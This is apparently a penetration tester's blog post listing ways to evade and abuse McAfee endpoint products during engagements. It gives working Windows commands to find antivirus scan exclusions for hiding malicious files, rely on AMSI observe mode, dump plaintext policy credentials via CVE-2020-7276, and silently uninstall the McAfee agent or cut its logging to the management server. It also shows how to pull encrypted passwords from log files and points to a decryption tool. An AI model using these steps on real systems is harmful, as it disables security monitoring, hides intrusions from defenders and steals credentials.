



Unpatched or misconfigured McAfee components will make life much easier during a penetration test or red team assessment<!-- end -->. 

While conducting a penetration test I happen to run into McAfee and wanted to see if there are any articles on bypassing or abusing McAfee. I started doing some research and unfortunately I was unable to find any well documented modern techniques on doing so. I decided to write up on a few methods that I discovered during my assessment which I found very useful.

# McAfee Products

Before I start I want to briefly go over how McAfee works for anyone who hasn't encountered it before. McAfee has various independent products/components that can be purchased by enterprises. Enterprises will purchase different products depending on their needs. Some of Mcafee's products you may encounter are:

* McAfee Endpoint Security (ENS)
* McAfee Host Intrusion Prevention (HIP)
* McAfee EndPoint Security Web Control
* McAfee VirusScan Enterprise

The full list of McAfee products is available <a href="https://www.mcafee.com/enterprise/en-ca/products/a-z.html">here</a>. 

# Method 1 - ENS Folder & File Exclusions

## On-Access Scan Exclusions

On-Access Scan (OAS) is the process of scanning files as they are accessed by users on the system. If you place your malicious file in an excluded folder then you can execute it without worrying about ENS scanning your file. You can also abuse file exclusions by simply renaming your malicious file to the excluded file name.

Query the following registry keys and check the file & folder names under the 'exclusions' value.

    #OAS Exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_DEFAULT /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_HIGH /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\EXCLUSION_EXCLUDE_OAS_PROCESS_GROUP_LOW /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_DEFAULT /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_HIGH /v exclusions
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_PROCESS_GROUP_LOW /v exclusions

    #Email attachment OAS Exclusions:
    reg query HKLM\SOFTWARE\McAfee\AVSolution\OAS\OAS_EMAIL_ATTACHMENTS /v exclusions

If for some reason you weren't able to find anything, the exclusions list is available in the following paths:

    C:\ProgramData\McAfee\Endpoint Security\McAfeeSettingsBackup\*.xml
    C:\ProgramData\McAfee\Endpoint Security\McAfeeSettingsBackup\*.reg

## On-Demand Scans

The aforementioned technique only covers OAS and therefore if the machine is scanned with an On-Demand Scan (ODS) then your files may be detected and deleted. If you want the exclusions list for ODS check the following registry key.

    
    reg query HKLM\SOFTWARE\McAfee\AVSolution\ODS\541* /v exclusions

\* 541 may be a different number on your target machine 

# Method 2 - ENS Disabled AMSI

By default, AMSI is set to <a href="https://www.mcafee.com/blogs/other-blogs/mcafee-labs/mcafee-amsi-integration-protects-against-malicious-scripts/">observe mode</a> which means if the invoked PowerShell commands or scripts are detected as being malicious, they won't be blocked. If AMSI is set to observe mode then we can stick to running our tools in memory. Note that malicious commands and scripts are still logged in observe mode.

# Method 3 - Dump Policy Settings (CVE-2020-7276)

I ran into this completely by accident and after searching online I realized this is probably <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7276">CVE-2020-7276</a>. If you have administrator privileges you can dump policy settings which contain sensitive information such as server names, IPs, share paths, usernames, and passwords.

    cd "C:\Program Files\McAfee\Endpoint Security\Endpoint Security Platform\Upgrade"
    MfeUpgradeTool.exe /export out.txt /plaintext

# Method 4 - Uninstalling McAfee Products

If you have Administrator privileges you can try to avoid McAfee products by uninstalling them. Every McAfee component has its own registry key with an <i>Uninstall Command</i> value. The components' registry keys can be found under the following parent key:

    reg query "HKLM\SOFTWARE\WOW6432Node\Network Associates\ePolicy Orchestrator\Application Plugins"
    Or
    reg query "HKLM\Software\Wow6432Node\McAfee\ePolicy Orchestrator\Application Plugins"

If you use this method make sure you uninstall the McAfee agent after you have attempted uninstalling everything else.

The McAfee Agent is responsible for various tasks such as sending security logs to the centralized security management server known as ePO. To prevent the agent from sending logs to the server you can uninstall it. If tamper protection is enabled then this will fail, in that case you can try to switch the agent to 'unmanaged mode' which will also stop the machine from sending logs.

    #Remove Agent
    cd c:\Program Files\McAfee\Agent\x86
    FrmInst.exe /FORCEUNINSTALL /SILENT

    #Switch to unmanaged mode
    cd c:\Program Files\McAfee\Agent\x86
    FrmInst.exe /remove=agent /SILENT

# Method 5 - Passwords Inside Log files

I've seen SiteList.xml's data laying around in log files before so here's what you want to try:

    #Search for SiteList.xml
    cd C:\Users\mrd0x\AppData
    dir /s sitelist.xml

    #McAfee's log folder
    cd C:\Users\mrd0x\AppData\Local\Temp\McAfeeLogs
    findstr /i password * > enum.txt

The passwords are encrypted but can be easily decrypted using <a href="https://github.com/funoverip/mcafee-sitelist-pwd-decryption">this tool</a>.

# Final Remarks

Next time you run into McAfee you'll have a few more things on your checklist to try. If there are any additional methods I should add to this list please reach out to me on Twitter (@mrd0x).